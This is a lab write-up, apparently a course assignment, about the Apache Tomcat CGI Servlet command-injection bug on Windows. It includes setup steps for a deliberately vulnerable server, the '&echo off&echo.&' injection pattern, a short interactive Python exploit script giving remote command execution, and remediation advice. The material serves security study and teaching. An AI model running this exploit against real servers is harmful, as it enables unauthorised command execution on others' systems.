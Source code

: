# PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Explanation of Bug:
There is a vulnerability in parameter interpolation in Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 which can be exploited by passing arguements as query
parameters which in turn are passed to the underlying windows command line.  
In windows `&` is a special character which acts as command seperator. Neither Apache Tomcat or the
Windows JRE perform does any kind of input validation for these special characters.  
So, after this we can literally input any command directly to the command line. For example, if
input is `&<cmd_to_run>`, the command which is passed to cmdline will be 
```
RCE.bat &<cmd_to_run>
```  
Here cmd.exe will interpret `RCE.bat` and `<cmd_to_run>` as seperate commands. To see the output of the injected command we need to prepend the command with `&echo.`. If this is 
not done, command will still be invoked but we will not be able to see its output. Optionally we can also prepend the command with `&echo+off` which turns off printing of
present working directory. (`+` is a must and cannot be replaced by `%20` or `space` since HTML queries have MIME type of `application/x-www-form-urlencoded` and since there are
no forms we have to craft query parameters manually).
```
RCE.bat &echo off&echo.&<cmd_to_run>
```  
This bug is only exploitable when running on Windows in a non-default
configuration in conjunction with batch files and `enableCmdLineArguements` set to `true` in web.xml file. If also `passShellEnvironment` is also set to `true`, this gives the
upper-hand to the attacker as he then doesn't need to enter exact path of commands he want to run. 

# Environment Setup:
1. We installed a Java Runtime Environment (JRE) on a Windows 7 virtual machine.
2. We then download the vulnerable version of Tomcat (in this case 7.0.93) and extract.
3. To enable privileged context, we modify the `conf\context.xml` file and set the property `privileged` to True.

	``` html
	<Context privileged="true">
	```	
4. To enable the CGI Serverlet, we would need to uncomment the commented CGI Serverlet section in `conf\web.xml`. We also initialize the `enableCmdLineArguments` to `true` for passing command line arguments to CGI script, we can also set `passShellEnvironment` for the sake of convenience without passing full paths of commands to be executed.
	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<init-param>
	  <param-name>passShellEnvironment</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

5. We enable the url pattern `/cgi/*` to be handled by the cgi scripts.
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```
6. To demonstrate the vulnerability, we need some cgi scripts to be present on the server, to simulate that, we create a directory for the cgi scripts

 	`mkdir webapps\ROOT\WEB-INF\cgi`

7. The exploit requires the presence of some cgi script, which would be executed each time a request to the certain script is made. The exploit would work as long as we have a non-empty valid cgi script (this script could otherwise be found by some attacker with enumeration under similar environment). We just create a `RCE.bat` which simply sleeps for 1 second
	```bash
	echo timeout 1 > webapps\ROOT\WEB-INF\cgi\RCE.bat 
	```

8.	We then instantiate the the TomCat server for exploitation
	``` bash
	cd bin
	catalina run
	```
9. Now we have our vulnerable server up for exploitation, we pass commands to the url of the cgi batch script.
  
# Exploit Code:

```python3
import requests as re		
base_url = input("Enter url of the .bat cgi script: ")
while(True):
	command = input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command		# & is command seperator
	r = re.get(base_url, params=command.replace(" ","+"))	# ' ' is replaced by '+' to craft valid query parameters
	print(r.text)
```

# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
2.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` and set it to `true`for proper input validation. 

# References:
1.	https://www.codewhitesec.blogspot.com/2016/02/java-and-command-line-injections-in-windows.html
2.	https://docs.microsoft.com/en-us/archive/blogs/twistylittlepassagesallalike/everyone-quotes-command-line-arguments-the-wrong-way
